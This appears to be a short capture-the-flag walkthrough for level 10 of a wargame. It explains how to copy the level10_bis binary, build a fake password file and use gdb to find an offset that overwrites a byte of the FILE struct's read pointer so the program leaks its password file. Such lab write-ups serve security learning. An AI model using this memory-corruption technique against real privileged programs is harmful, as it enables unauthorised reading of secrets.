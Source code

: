 # Walkthrough

I recompiled level10_bis.c but due to difference with the process executing in gdb I couldn't fastly resolve the channel this way.
Since I'm a lazy fuck I copied the executable into /tmp/ directly and modified the hardoded string ```/levels/level10_bis.pass``` into ```/tmp/l10/level10_bb.pass``` inside vim:

My fake password file:
```bash
level10@io:/tmp/l10$ cat /tmp/l10/level10_bb.pass
01234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789PASSSPASSSSPASSSSPASSSSERRRRRRRRRRRRRRRRORRRRRRRRRRRRRRRRRRRRRRRRRRRRR
```

The idea is to overwrite the last byte of the read_ptr inside the IO_FILE struct so it goes back and read the pass.

Now all I have to do is 
```
(gdb) unset env LINES
(gdb) un set env COLUMNS // just in case?
(gdb) br *(address of the first instruction after fopen)
(gdb) set $byte=$eax
(gdb) br *(address at mov    BYTE PTR [ebp+eax*1-0x1c0],0x0 instruction)
(gdb) set $offset = $byte-$ebp-0x1c0
(gdb) p/d $offset	// the magic number
(gdb) r magic_number
```

Let's get out of gdb:

```
level10@io:/tmp/l10$ /levels/level10_bis magic_number
Welcome challengers
lengers
Welcome challengers
Welcome challengers
THE_PASSWORD_YEAH.
ACCESS DENIED...

level10@io:/tmp/l10$ ./executable THE_PASSWORD_YEAH.
```

Tip: escape the "!!" with printf "\x21\x21" unless you want some weird history stuff to popup	

